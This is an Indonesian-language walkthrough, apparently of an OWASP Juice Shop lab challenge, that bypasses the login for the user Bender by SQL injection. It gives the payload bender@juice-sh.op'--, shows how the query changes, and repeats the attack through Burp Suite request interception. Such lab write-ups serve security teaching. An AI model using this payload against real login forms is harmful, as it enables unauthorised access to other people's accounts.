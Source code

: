 Setelah menekan tombol **Log in**, sistem mengabaikan pengecekan password dan langsung menerima login sebagai Bender.

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 10 10 54" src="https://github.com/user-attachments/assets/b9b611c9-bec5-47d9-add3-2c7a7c0068da" />

---

## Analisis Teknis

### Query SQL Asli

Query rawan biasanya ditulis seperti ini:

```sql
SELECT * FROM users WHERE email = '$email' AND password = '$password';
```

### Query Setelah Injeksi

Dengan payload `bender@juice-sh.op'--`, query berubah menjadi:

```sql
SELECT * FROM users WHERE email = 'bender@juice-sh.op'--' AND password = 'aaaa';
```

**Penjelasan:**

* `bender@juice-sh.op'` → email milik Bender.
* `--` → menandakan komentar dalam SQL, sehingga bagian setelahnya (termasuk pengecekan password) diabaikan.

Akibatnya, sistem hanya membaca bagian email dan langsung menganggap login valid meskipun password salah.

---

## Alternatif dengan Burp Suite

Cara lain adalah menggunakan **Burp Suite** untuk memodifikasi request login:

1. **Intercept request** login. <img width="1919" height="1138" alt="image" src="https://github.com/user-attachments/assets/09e74ffc-c771-4634-8d41-b8addcb225b7" />

2. Ubah parameter **email** menjadi:

   ```
   bender@juice-sh.op'--
   ```

   <img width="1919" height="1140" alt="image" src="https://github.com/user-attachments/assets/cc8de883-c9e6-4511-ba77-6b18375e879b" />  

3. Forward request, maka login berhasil sebagai Bender.

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 10 10 54" src="https://github.com/user-attachments/assets/b9b611c9-bec5-47d9-add3-2c7a7c0068da" />

---
